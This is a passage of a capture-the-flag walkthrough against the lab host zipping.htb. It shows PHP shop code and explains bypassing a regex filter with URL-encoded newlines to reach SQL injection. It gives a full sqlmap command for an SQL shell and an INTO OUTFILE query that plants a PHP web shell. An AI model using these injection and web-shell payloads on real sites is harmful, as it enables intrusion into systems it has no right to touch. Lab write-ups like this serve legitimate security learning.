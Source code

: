 ```
            <?php if ($product['rrp'] > 0): ?>
            <span class="rrp">&dollar;<?=$product['rrp']?></span>
            <?php endif; ?>
        </span>
        <form action="index.php?page=cart" method="post">
            <input type="number" name="quantity" value="1" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
            <input type="hidden" name="product_id" value="<?=$product['id']?>">
            <input type="submit" value="Add To Cart">
        </form>
        <div class="description">
            <?=$product['desc']?>
        </div>
    </div>
</div>

<?=template_footer()?>
```


&nbsp;

Now you can see here in this code that have value of the id parameter.It can exploit `SQL injection`. Look at `preg_match` there have regex , that regex means that value of the parameter need to be start with any uppercase letter , lowercase letter or others symbols which has been entered into the code like special character . So now i try exploit Sqli with `newline` in beggining of the parameter. The `newline` is \n\r so i need url encode first to exploit sqli and this is a newline after url encoded `%0a%0d` 


- http://zipping.htb/shop/index.php?page=product&id=1 (1)
- http://zipping.htb/shop/index.php?page=product&id=test (2)
- http://zipping.htb/shop/index.php?page=product&id=%0a%0d3 (3)
- http://zipping.htb/shop/index.php?page=product&id=%0a%0dtest3 (4)

Look at number 4 i tried combine character and number would be error . 
The first two tests behave as we would expect- 1 passes the filter and test does not. When prefixing the payload with the URL-encoded characters, however, we see that both 3 and test3 pass the filter


<a id="item-three"></a>
# SQL Injection (Automation)

`sqlmap -u "http://zipping.htb/shop/index.php?page=product&id=1" --fresh-queries --prefix="%0A%0D'" --suffix="'1" -p id --dbms mysql --level 2 --risk 2 --sql-shell --time-sec 1 --batch`

&nbsp;
&nbsp;
&nbsp;
![](../../../../images/2024-01-19-15-26-40.png)

Sqli shell worked !

so now i just need upload mywebshell to the website
`select '<?php system(''ls''); ?>' INTO OUTFILE '/var/lib/mysql/shell.php%00';`
(to list file & folder)
